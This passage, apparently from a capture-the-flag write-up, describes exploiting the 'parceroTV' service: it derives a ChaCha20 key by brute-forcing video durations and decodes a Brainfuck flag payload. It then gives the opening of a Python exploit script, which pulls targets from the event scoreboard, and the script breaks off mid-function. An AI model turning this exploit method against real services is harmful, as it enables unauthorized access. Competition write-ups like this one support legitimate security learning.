 The exploitation path was:
1.  The attacker finds a target short with captions by querying the `/get_shorts` endpoint.
2.  They download the encrypted `.vtt` caption file.
3.  They reverse the Spanish word encoding to retrieve the raw ciphertext.
4.  They brute-force the video duration (the exploit script successfully used values like `4.6` and `2.5` seconds) to generate the correct ChaCha20 key.
5.  With the correct key, they decrypt the ciphertext to reveal the Brainfuck payload containing the flag.

### Exploits

Here you can read the actual exploits I've written with NPI.

```python
#!/bin/env python3

from pwn import *
import requests
import sys
import json
import string
import random

service_name = 'parceroTV'
ip = sys.argv[1]

alph = string.ascii_uppercase + string.digits

if service_name:
    attacksjson = requests.get(f'https://9.enowars.com/scoreboard/attack.json').json()
    getid = attacksjson['services'][service_name][ip]


def add_metadata(input_path: str,
                 output_path: str,
                 title: str = None,
                 artist: str = None,
                 genre: str = None) -> None:
    cmd = ["ffmpeg", "-i", input_path]

    if title:
        cmd += ["-metadata", f"title={title}"]
    if artist:
        cmd += ["-metadata", f"artist={artist}"]
    if genre:
        cmd += ["-metadata", f"genre={genre}"]

    cmd += ["-c", "copy", output_path]

    subprocess.run(cmd, check=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)

def brainfuck(input):
    ...
    return output

def attack(fid=None):
    try:
        username_f = fid['0'][0]
        URL = f'http://{ip}:7777'
        assert username_f is not None, "User ID must be set"

        username, password = ''.join(random.choices(alph, k=12)), ''.join(random.choices(alph, k=12))
        s = requests.Session()
```